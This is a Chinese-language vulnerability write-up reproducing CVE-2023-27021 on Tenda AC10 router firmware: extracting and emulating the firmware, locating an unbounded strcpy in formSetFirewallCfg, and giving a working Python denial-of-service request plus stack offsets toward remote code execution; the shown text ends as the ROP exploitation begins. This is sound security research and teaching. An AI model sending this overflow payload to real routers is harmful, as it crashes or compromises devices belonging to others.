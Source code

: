 # CVE-2023-27021 漏洞挖掘及利用

本文尝试通过 tenda 的一个固件对 CVE-2023-27021 进行复现，利用漏洞实现 RCE

CVE 简介：

![image-20250812203906824](./img/cve/image-20250812203906824.png)

## 固件下载及提取

[CVE 中对应的固件下载地址](https://www.tenda.com.cn/material/show/3506)

binwalk 提取固件

```bash
binwalk -Me US_AC10V4.0si_V16.03.10.13_cn_TDC01.bin
```

成功拿到了如下的根文件系统

![image-20250812213213516](./img/cve/image-20250812213213516.png)

## 固件模拟

既然拿到了根文件系统了，那就直接 chroot 了

![image-20250812215055065](./img/cve/image-20250812215055065.png)

由于是 mips 架构的，需要 qemu 来模拟执行，这里进行用户态仿真就行了，这里要注意是小端序（LSB）

> qemu-mips-static 是针对大端序 MPIS（MIPS-BE）的
>
> qemu-mipsel-static 是针对小端序 MPIS（MIPS-LE）的

```bash
sudo apt install qemu-user-static

cp /usr/bin/qemu-mipsel-static .
sudo chroot . ./qemu-mipsel-static  ./bin/httpd
```

![image-20250812222350947](./img/cve/image-20250812222350947.png)

这里就一直卡在这里了。在 IDA 中搜索 WeLoveLinux 字符串定位到这里

![image-20250812222810491](./img/cve/image-20250812222810491.png)

```c
while ( 1 )
{
	lan_ifname = ifaddrs_get_lan_ifname();
	if ( ifaddrs_get_ifip(lan_ifname, v10) >= 0 )
 	break;
	sleep(1u);
}
```

这里可以看到，程序一直在寻找一个可用的局域网接口并尝试获取 IP，由于是在 chroot 的环境下，程序无法查询网络接口，所以就一直卡死在了这个循环里。

虽然这里可以直接 patch 掉，但为了更好地复现漏洞，我们还是给它提供真实的网桥和 IP。

网桥的作用就是连接多个网络接口，使它们之间能相互通信。在这种虚拟化的环境中，网桥允许虚拟机通过主机的网络设备访问外部网络或与主机通信。

这里就用 brctl 创建虚拟网桥连接主机的接口，路由器通过该网桥与主机和外部网络通信

```bash
sudo brctl addbr br0            # 创建网桥
sudo brctl addif br0 enp2s0     # 添加主机接口
sudo ifconfig br0 up            # 激活网桥
sudo dhclient br0               # 从 dhcp 服务器获得 br0 的 IP 
```

然后再次启动即可

![image-20250813010140435](./img/cve/image-20250813010140435.png)

![image-20250813010217060](./img/cve/image-20250813010217060.png)

这里需要把 webroot_ro 文件夹下的内容复制到 webroot 文件夹中

```bash
cp -r webroot_ro/* var/webroot/
```

再次启动即可正常访问

![image-20250813010430498](./img/cve/image-20250813010430498.png)

## 漏洞测试（DoS）

根据 CVE 的描述，问题出现在 formSetFirewallCfg 这个函数里面，先找到它

![image-20250813011534775](./img/cve/image-20250813011534775.png)

这里注意到 strcpy 这个函数，在不对 s 作长度限制的情况下直接 copy 到了栈上，这就可能存在栈溢出的洞

我们先来看看这个函数是干什么的，看一下引用

![image-20250818231812967](./img/cve/image-20250818231812967.png)

websFormDefine 是干什么的呢，这里我们来看看流量

![image-20250818232149592](./img/cve/image-20250818232149592.png)

比如这里的 GetRouterStatus，结合下图，可以猜测 websFormDefine 可能是用来设置不同的 url 接口的处理函数

![image-20250818232312743](./img/cve/image-20250818232312743.png)

再比如我们点击家长控制，就会请求 /goform/GetParentCtrlList

![image-20250818232733923](./img/cve/image-20250818232733923.png)

formSetFirewallCfg 从名字上看应该和防火墙有什么关系，我们点击一下防火墙功能

![image-20250818232949308](./img/cve/image-20250818232949308.png)

![image-20250818233156283](./img/cve/image-20250818233156283.png)

基本可以确定我们的目标 url 路径是 /goform/SetFirewallCfg 了

再次回到 formSetFirewallCfg 这个函数，我们需要控制传入 strcpy 的变量 s，`s = (char *)websGetVar(a1, "firewallEn", "1111");` 

websGetVar 可能表明要传入的变量名是 firewallEn，如果是这样的话，我们可以先来尝试一下 dos 攻击

```python
import requests

url = 'http://192.168.2.165/goform/SetFirewallCfg'


payload = 'a'*0x300


data = {"firewallEn": payload}

response = requests.post(url, data=data)

print(response.status_code)
print(response.text)
```

发包以后无法获得响应，chroot 进程直接卡死了，web 界面也无法访问了，dos 攻击成功

## RCE

要想 rce，那我们就得精心构造合适的 payload。先来学一下 [mips-rop](./mips.md)

### 跟踪调用

先来调试一下看看我们的 payload 是怎样布置到栈上的

```bash
sudo chroot . ./qemu-mipsel-static -g 1234 ./bin/httpd
```

```bash
gdb-multiarch httpd
pwndbg> target remote 192.168.2.180:1234
```

我们先在 `formSetFirewallCfg` 的位置打上断点，然后 c 一下让服务跑起来，此时 httpd 正在等待我们的请求，我们来测试一下

```python
import requests

url = 'http://192.168.2.165/goform/SetFirewallCfg'


payload = 'test'


data = {"firewallEn": payload}

response = requests.post(url, data=data)

print(response.status_code)
print(response.text)
```

 ![image-20250819164038574](./img/cve/image-20250819164038574.png)

这里可以看到，websGetVar 函数处理后得到的就是我们传入的 'test'

![image-20250819165357689](./img/cve/image-20250819165357689.png)

strcpy 之后，'test' 就被复制到 $sp+0x28 的位置了。所以这里的溢出还是很好利用的，我们前面的猜测也是完全正确的。

![image-20250819170628843](./img/cve/image-20250819170628843.png)

$sp+0xbc 的位置保存着返回地址。前面我们 pos 的时候正是将这里覆盖成了一个无效的地址而导致函数返回的时候崩溃。

### 漏洞利用（ROP）

![image-20250819172636312](./img/cve/image-20250819172636312.png)

这里可以看到，栈是不可执行的（bss 也是），所以 `shellcode in stack` 的链子就打不了了。
